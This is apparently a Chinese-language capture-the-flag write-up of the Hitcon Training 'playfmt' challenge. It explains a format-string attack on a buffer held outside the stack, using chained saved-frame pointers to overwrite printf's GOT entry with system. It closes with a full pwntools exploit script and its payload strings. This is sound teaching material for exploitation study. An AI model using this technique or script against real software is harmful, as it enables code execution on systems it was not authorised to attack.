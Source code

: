 ```yaml
---
title: Hitcon Trainning playfmt
date: 2022-03-11 18:52:05
tags:
    - 格式化字符串
---
```


<!--more-->

# Hitcon Trainning playfmt

这是一道非常经典的一道非栈上格式化字符串漏洞利用

![image-20220311185922107](https://s2.loli.net/2022/03/26/C5zyedhRpcwraU8.png)

拿到程序可以看到主函数是读取buf的0xC8个数组，然后拿buf匹配“quit”如果不是就直接break,但是我们是需要pringf（）的。

## **想法：**

```
控制buf使其匹配“quit”,然后用system函数覆盖printf函数，直接发送/bin/sh
```

## **问题：**

```
buf是存在bss段上的，bss段我们是无法修改的。常规方法是利用栈上内容可写，将其写为某个地址，然后用%k$n这样的方式把这个地址指向的内容改掉。 而现在buf没法通过直接写入来控制栈上的地址。
```

![image-20220311190438174](https://s2.loli.net/2022/03/26/H45q1gMcNuatbBK.png)

## **解决办法：**

```
找到栈上哪些位置里面的内容是地址而且是可以控制栈上别的位置的内容的，以此来写入我们的目的地址，这个地方就是ebp，ebp本来就是用来保存之前的ebp的内容。因为只有像ebp这样的三个指针连接的依托指针才能做
```

![image-20220311192924478](https://s2.loli.net/2022/03/26/MDB3EhmnS4L7kl9.png)

因为这道题ebp上有两个指针，为了方便起见暂且称呼为指针a——>指针b——>指针c——>c的内容，只要我们控制指针c指向0xffffcf5c（指针a的下一个地址，简称指针d）并让它指向printf的got表地址并且打印出printf@got的内容，再改写printf@got为system的地址，接下来再调用printf就是调用system了。

## **补充：**

```
为什么要找指针d，因为指针d的地址和printf的got表地址很像，我们覆盖的时候只需覆盖两个字节就可以
```

![image-20220311194140294](https://s2.loli.net/2022/03/26/TbycsKdqaLe6571.png)

![image-20220311194058073](https://s2.loli.net/2022/03/26/l2zoJPBxcAhCukQ.png)

我们要覆盖地址的时候，要注意有一个问题，%k$n一用就炸，也就是说我们起码要用hn，并且在改写printf@got的时候，至少要把它分为两次写进去，那么我们就还要有一个地方指向printf@got+2，这个地址的要求和指针d是一样的。因为printf都是0x804带头，所以发现在偏移为b处的地址还有个是0x80485b1，刚好符合printf@got+2的要求

![image-20220311195139639](https://s2.loli.net/2022/03/26/3QloXxeu41L2Z6k.png)

##  **思路：**

![image-20220313114258003](https://s2.loli.net/2022/03/26/AHXByk8PbGLl9Kn.png)

先用“%6$p”泄露0xffffcf58指向的0xffffcf68的地址（stack），然后"%6$hhn"把0xffffcf5c覆盖0xfffffcf78,这样就变成0xffffcf58指向0xffffcf5c了，然后“%10$hn”把0xffffcf5c修改成printf.got值，后面同理修改printf.got+2（got表高位）的值（因为got表四字节，一下子写入4字节容易报错，所以分两次写入），再把system覆盖printf.got就行。

## EXP：

```
#!/usr/bin/env python 
#_*_ coding:utf-8 _*_ 
from pwn import *
context.log_level='debug'
sh=process('./playfmt')
elf=ELF('./playfmt')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')

printf_got = elf.got['printf']
printf_libc = libc.symbols['printf']
system_libc = libc.symbols['system']
def b(addr):
    bk = "b *" + str(addr)
    gdb.attach(sh, bk)
    success("attach")
# b(0x804853B)
def check():
    sh.sendline('yes!')
    while True:
        sh.sendline('yes!')
        sleep(0.1)
        if sh.recv().find('yes!') != -1:
            break
'''
这里的一段借鉴网上大佬的，使用while，是因为%kc输出的实在太多了
recv()每次只能接受0x1000的内容
如果没有循环的话会卡住。
用一个标识符做接受完成标志
至于为什么这里每次都要sendline('yes!')
因为他可能前面的输出加上'ye'刚好就是0x100,后面就会因为只有's!'而没法跳出循环，就卡死了
'''
sh.sendline('aaaa%6$pbbbb%15$p')
sh.recvuntil('aaaa')
stack=int(sh.recv(10),16)
log.success("stack-->{}".format(hex(stack)))
sh.recvuntil('bbbb')
libc_base=int(sh.recv(10),16)+0x18fa1
log.success("libc_base-->{}".format(hex(libc_base)))
system_addr=system_libc+libc_base

stack1=stack-0xc
stack2=stack+0x4
log.success('stack1-->{}'.format(hex(stack1)))
log.success('stack2-->{}'.format(hex(stack2)))
b(0x804853B)
payload="%"+str((stack1)&0xff)+"c"+"%6$hhn"
sh.sendline(payload)
sleep(0.3)
check()
payload='%'+str((printf_got)&0xffff)+'c%10$hn'
sh.sendline(payload)
sleep(0.3)
check()
payload='%'+str((stack2)&0xff)+'c%6$hhn'
sh.sendline(payload)
sleep(0.3)
check()
payload='%'+str((printf_got+2)&0xffff)+'c%10$hn'
sh.sendline(payload)
sleep(0.3)
check()
#间接写入got表
payload='%'+str((system_addr>>16)&0xff)+'c%11$hhn'
payload+='%'+str((system_addr)&0xffff-((system_addr>>16)&0xff))+'c%7$hn'
#用sys函数覆盖got表，注意先写入sys高位地址，因为高地址是一字节，因为低地址是两个字节
sh.sendline(payload)
sh.sendline('quit')
# sh.sendline("/bin/sh")

sh.interactive()
sh.close()
```

